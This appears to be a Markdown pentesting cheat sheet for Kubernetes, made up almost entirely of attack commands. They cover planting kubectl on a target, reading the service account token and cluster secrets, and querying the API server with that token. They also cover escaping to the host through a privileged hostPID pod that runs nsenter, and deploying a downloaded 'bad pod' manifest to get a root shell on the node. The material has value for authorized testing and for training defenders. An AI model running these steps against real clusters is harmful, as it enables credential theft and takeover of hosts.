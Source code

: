 ```yaml
---
title: Kubernetes Pentesting
description: A portable, extensible, open source platform for managing containerized workloads and services, that facilitates both declarative configuration and automation. Default ports are 6443, 8443.
tags:
    - Container
refs:
date: 2023-01-30
draft: false
---
```


## Check if the Kubectl Command Available in Target Machine

```sh
kubectl -h
k0s -h
k0s kubectl -h
microk8s kubectl -h
```

If we cannot find kubectl, upload the binary from local machine.  
First off, install the kubectl in local machine.

```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
python3 -m http.server
```

Then download the binary file into remote machine.

```sh
wget http://<local-ip>:8000/kubectl -O /tmp/kubectl
chmod +x /tmp/kubectl
```

## Investigation From Inside

```sh
# Get JWT
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# if we find the token, decode it in https://jwt.io/

# Sensitive information in the directory
ls -a /var/lib/k0s/containerd/

# Check your permission
kubectl auth can-i --list
# /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl auth can-i --list --token=<JWT>

# All information
kubectl get all

# Pods
kubectl get pods
# -A: List all pods across all namespaces
kubectl get pods -A
# Get the detail information abou the pod
# -o: Output format
kubectl get pod <pod-name> -o yaml
# Specify the namespace
kubectl get pod <pod-name> -n <namespace> -o yaml

# Jobs
kubectl get job -n <namespace>
# -o: Output details
kubectl get job -n <namespace> -o json

# Secrets
kubectl get secrets
kubectl get secrets -n <namespace>
# Get the specific secret
kubectl get secret <secret-name> -o json
kubectl get secret <secret-name> -n <namespace> -o json
# Edit the secret
kubectl edit secret <secret-name>
kubectl edit secret <secret-name> -n <namespace>
# List all data contained in the specific secret
kubectl describe secret <secret-name>
kubectl describe secret <secret-name> -n <namespace>


# Create a ServiceAccount
kubectl create serviceaccount api-explorer
# Bind the ClusterRole to the ServiceAccount
# eg. namespace: default
kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
```

<br />

## Investigation via Kubernetes API Server

If we get the JWT, we can fetch information by the following commans.

```sh
# -k: insecure (HTTPS)
curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
```

<br />

## Privilege Escalation (Escape) using the Container Image

### 1. Get Information About the Target Pod

```sh
kubectl get pods
kubectl get pod <target-pod> -o yaml

kubectl describe pod <target-pod>
```

In the output, check the image name in the containers image.

### 2. Create a Pod Yaml File

Create "pod.yaml".  
Replace the containers image value (**\<image_name\>**) with the one we found in the previous section.

```yaml
spec:
  hostPID: true
  containers:
    - name: '1'
      image: <image_name>
      command:
        - nsenter
        - '--mount=/proc/1/ns/mnt'
        - '--'
        - /bin/bash
  stdin: true
  tty: true
  securityContext:
    privileged: true
```

After that, convert the YAML to JSON using online tools such as the [Online Converter](https://www.convertjson.com/yaml-to-json.htm).  
In the tool, check the **“Minimize JSON”** to make the json to the one line.

### 3. Run the New Container to Privilege Escalation

Replace with **\<image_name\>** with the one we found in the previous section.

```sh
kubectl run testbox --restart Never -it --rm --image newimage --overrides '{"spec":{"hostPID":true,"containers":[{"name":"1","image":"<image_name>","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin":true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Now we should escape the container and get a target shell.

<br />

## Privilege Escalation using Bad Pods

Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)

### 1. Download the Bad Pod

At first, you need to download the bad pod on your local machine.

```sh
wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
```

After downloading the yaml file, we need to replace the value of **metadata.containers.image** with the **existing container image** that we can find in the target container.  
Then start web server to allow the target machine to get this bad pod.

```sh
python3 -m http.server 8000
```

### 2. Trasfer the Bad Pod to the Target Machine

On the target machine, download the bad pod from your local machine.

```sh
wget http://<your-local-ip>:8000/privesc.yaml
```

### 3. Create the Pod

```sh
# Create the pod
kubectl apply -f privesc.yaml --token=<JWT>

# List all pods
kubectl get pods --token=<JWT>
```

### 4. Get a Shell**

```sh
kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
```

We should get a shell and can investigate the mounted folder.

```bash
cd /host
```